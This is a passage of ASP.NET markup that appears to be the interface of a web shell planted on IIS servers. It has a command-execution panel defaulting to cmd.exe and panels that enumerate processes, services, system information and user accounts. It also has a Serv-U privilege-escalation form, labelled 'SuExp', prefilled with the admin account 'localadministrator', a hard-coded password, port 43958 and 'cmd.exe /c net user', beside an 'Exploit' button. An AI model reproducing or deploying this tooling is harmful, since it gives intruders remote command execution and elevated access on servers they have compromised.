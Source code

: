 <asp:TableRow CssClass="head"><asp:TableCell></asp:TableCell><asp:TableCell>ID</asp:TableCell><asp:TableCell>Process</asp:TableCell><asp:TableCell>ThreadCount</asp:TableCell><asp:TableCell>Priority</asp:TableCell><asp:TableCell>Action</asp:TableCell></asp:TableRow>
</asp:Table>
</table>
</div>
<%--CmdShell--%>
<div runat="server" id="vIac">
 <p>CmdPath:<br/>
 <input class="input" runat="server" id="kusi" type="text" size="100" value="c:\windows\system32\cmd.exe"/>
 </p>
 Argument:<br/>
 <input class="input" runat="server" id="bkcm" value="/c Set" type="text" size="100"/> <asp:Button ID="YrqL" CssClass="bt" runat="server" Text="Submit" OnClick="FbhN"/>
 <div id="tnQRF" runat="server" visible="false" enableviewstate="false">
 </div>
</div>
<%--Services--%>
<div runat="server" id="iQxm" visible ="false" enableviewstate="false">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
<asp:Table ID="vHCs" runat="server" Width="100%" CellSpacing="0" >
<asp:TableRow CssClass="head"><asp:TableCell></asp:TableCell><asp:TableCell>ID</asp:TableCell><asp:TableCell>Name</asp:TableCell><asp:TableCell>Path</asp:TableCell><asp:TableCell>State</asp:TableCell><asp:TableCell>StartMode</asp:TableCell></asp:TableRow>
</asp:Table>
</table>
</div>
<%--Sysinfo--%>
<div runat="server" id="ghaB" visible="false" enableviewstate="false">
<hr style=" border: 1px solid #ddd;height:0px;"/>
<ul class="info" id="Bin_Ul_Sys" runat="server"></ul>
<h2 id="Bin_H2_Mac" runat="server"></h2>
<hr style=" border: 1px solid #ddd;height:0px;"/>
<ul class="info" id ="Bin_Ul_NetConfig" runat="server"></ul>
<h2 id="Bin_H2_Driver" runat="server"></h2>
<hr style=" border: 1px solid #ddd;height:0px;"/>
<ul class="info" id ="Bin_Ul_Driver" runat="server"></ul>
</div>
<%--UserInfo--%>
<div runat="server" id="xWVQ" visible="false" enableviewstate="false">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
<asp:Table ID="VPa" runat="server" Width="100%" CellSpacing="0" >
</asp:Table>
</table>
</div>
<%--SuExp--%>
 <div runat="server" id="APl">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
 <tr align="center">
 <td style="width:10%"></td>
 <td style="width:20%" align="left">UserName : <input class="input" runat="server" id="dNohJ" type="text" size="20" value="localadministrator"/></td>
 <td style="width:20%" align="left">PassWord : <input class="input" runat="server" id="NMd" type="text" size="20" value="#l@$ak#.lk;0@P"/></td>
 <td style="width:20%" align="left">Port : <input class="input" runat="server" id="HlQl" type="text" size="20" value="43958"/></td>
 <td style="width:10%"></td>
 </tr>
 <tr >
 <td style="width:10%"></td>
 <td colspan="5">CmdShell&nbsp;&nbsp;:&nbsp;<input class="input" runat="server" id="mHbjB" type="text" size="100" value="cmd.exe /c net user"/> <asp:Button ID="SPhc" CssClass="bt" runat="server" Text="Exploit" OnClick="lRfRj"/></td>